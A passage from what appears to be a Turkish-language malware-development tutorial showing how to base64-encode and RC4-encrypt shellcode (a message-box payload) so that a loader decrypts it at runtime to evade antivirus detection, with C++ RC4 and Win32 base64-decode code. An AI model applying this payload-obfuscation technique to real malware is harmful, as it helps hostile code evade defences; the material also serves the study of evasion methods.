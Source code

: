 ```cpp
// encryption and decryption
unsigned char* RC4(unsigned char *plaintext, unsigned char* ciphertext, 
unsigned char* key, unsigned int keyL, unsigned int messageL) {
  int i;
  unsigned char s[256];
  unsigned char* keystream;
  KSA(s, key, keyL);
  keystream = PRGA(s, messageL);

  for (i = 0; i < messageL; i++) {
    ciphertext[i] = plaintext[i] ^ keystream[i];
  }
  return ciphertext;
}
```

### pratik örnek

Pratik örneğimiz için, öncelikle meow-meow mesaj kutusu payload'umuzu base64 ile kodladım, ardından bu payload'u `RC4` algoritması ile şifreledim:    

![av-evasion](./images/65/2022-08-16_06-02.png){width="80%"}      

```cpp
unsigned char* plaintext = (unsigned char*)"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii"
"1IYPkiLUiA+SItyUD5ID7dKSk0xyUg"
"xwKw8YXwCLCBBwckNQQHB4u1SQVE+SI"
"tSID6LQjxIAdA+i4CIAAAASIXAdG9IAd"
"BQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1"
"k0xyUgxwKxBwckNQQHBOOB18T5MA"
"0wkCEU50XXWWD5Ei0AkSQHQZj5B"
"iwxIPkSLQBxJAdA+QYsEiEgB0EFY"
"QVheWVpBWEFZQVpIg+wgQVL/4FhBWV"
"o+SIsS6Un///9dScfBAAAAAD5IjZX+"
"AAAAPkyNhQkBAABIMclBukWDVgf/"
"1UgxyUG68LWiVv/VTWVvdy1tZW93IQA9Xi4uXj0A";
unsigned char* key = (unsigned char*)"key";
unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) * 
strlen((const char*)plaintext));
RC4(plaintext, ciphertext, key, strlen((const char*)key), 
strlen((const char*)plaintext));
```

Yani, zararlı yazılımımızda ters işlemi yapıyoruz: Önce RC4 ile şifresini çözüyoruz, ardından `base64` ile kodunu çözüyoruz. Base64 çözme işlemi için Win32 kripto API'sini kullandım:    

```cpp
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

//...
//...
//...

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, 
  (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

```